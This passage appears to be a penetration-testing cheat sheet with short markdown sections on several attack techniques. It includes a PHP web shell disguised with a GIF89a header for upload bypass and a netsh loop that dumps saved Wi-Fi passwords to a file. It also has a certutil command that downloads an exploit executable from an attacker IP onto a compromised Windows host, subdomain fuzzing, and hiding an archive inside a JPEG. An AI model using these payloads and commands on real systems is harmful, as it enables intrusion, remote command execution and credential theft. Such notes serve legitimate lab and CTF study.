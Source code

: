 - Upload image:

```
GIF89a1
<?php system($_POST['cmd']); ?>

```

## virtualbox

- Need this config to be able to make VirtualBox work with both bridged and NAT at the same time.
    - `sudo nano /etc/network/interfaces`
    - edit the file: `allow-hotplug eth1` uncomment it
    - edit the file: `iface eth1 inet dhcp` uncomment it
    - save the changes, exit nano then: `sudo ifup eth1` to apply the changes on the running system.
- install ***virtualbox-guest***:
- it has to be installed on the VM: `sudo apt update && sudo apt install -y --reinstall virtualbox-guest-x11 && sudo reboot -f`

## Wifi show clear text password (Win)

- `netsh show profile "wifi network name" key=clear`
- Also we can save the above info into a file: `for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @if "%j" NEQ "" (echo SSID: %j & netsh wlan show profiles %j key=clear | findstr "Key Content") >> wifipassword.txt`

## wfuzz

Enlists subdomains based on a wordlist, here using top5000.txt from seclist. `--hw 290` is needed so 404 pages won't show up in the search results.

- `wfuzz -c -f sub-fighter -w top5000.txt -u http://<domain> -H "HOST: Fuzz.domain.com" --hw 290`

## wireless adapter (TP-LINK WN722N version 2,3,4) monitor mode

- `apt install -y realtek-rtl8188eus-dkms`
- `reboot -f`
- `iwconfig` - check driver it is Realter 8188
- `wifite --kill` - now monitor mode is enabled and working

## Windows file transfer

In case you have to bring a file over to the compromised Win machine. The last piece of information is how do you want to name the file you bring over.

- `certutil -urlcache -f http://10.10.14.5/MS10-059.exe ms.exe`

## Windows hide zip file as picture

- zip up files first (nc_secrets.zip)
- use photo to hide files in (cover.jpg)
- name you new secret photo (secretphoto.jpg)
- `copy /b cover.jpg+nc_secrets.zip secretphoto.jpg`
- to encrypt files in the folder (in case someone finds it), go to your nc_secrets folder and: `cipher /E` before executing above commands
